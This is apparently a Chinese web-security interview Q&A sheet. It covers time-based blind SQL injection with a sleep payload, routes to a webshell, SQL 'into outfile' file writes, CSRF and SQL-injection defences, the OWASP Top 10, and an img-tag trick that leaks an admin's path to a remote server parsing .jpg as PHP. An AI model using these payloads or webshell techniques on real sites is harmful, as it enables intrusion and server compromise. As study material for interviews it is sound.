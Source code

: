 ## 延时注入如何判断？
```SQL
if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
```
## 盲注和延时注入的共同点
都是一个字符一个字符的判断

## 如何那一个网站的webshell？
上传、后台编辑模板、sql注入写入文件、命令执行、代码执行、一些爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传含脚本插件包、上传含脚本文件zip压缩包等。

## sql写入文件都有哪些函数？
```SQL
select '文件内容' into outfile '文件路径'
select '文件内容' into dumpfile '文件路径'
```

## 如何防御CSRF？
1. 验证referer
2. 验证token，详细[浅谈cnode社区如何防止csrf攻击 - CNode技术社区](http://cnodejs.org/topic/5533dd6e9138f09b629674fd)

## owasp top 10
之前的文章上面是2013的，目前已经更新到2017.所以笔者将其改为了2017的内容
1. 注入
2. 失效的身份认证和会话管理
3. 跨站脚本(XSS
4. 失效的访问控制
5. 安全配置错误
6. 敏感信息泄漏
7. 攻击检测与防护不足
8. 跨站请求伪造(CSRF)
9. 使用含有已知漏洞的组件
10. 未受到充分保护的API

## SQL注入防护方法？
1. 使用安全API
2. 对输入的特殊字符进行`Escape`转义处理
3. 使用白名单来规范化输入验证方法
4. 对客户端输入进行控制，不允许输入SQL注入相关的特殊字符
5. 服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除

## img标签除了onerror属性外，还有其他获取管理员路径的办法吗？
src指定一个远程的脚本文件，获取referer

## img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径？
远程服务器修改apache配置文件，配置.jpg文件以php方式来解析
```
<img src=http://xss.tv/1.jpg> 
```
会以PHP的方式解析jpg
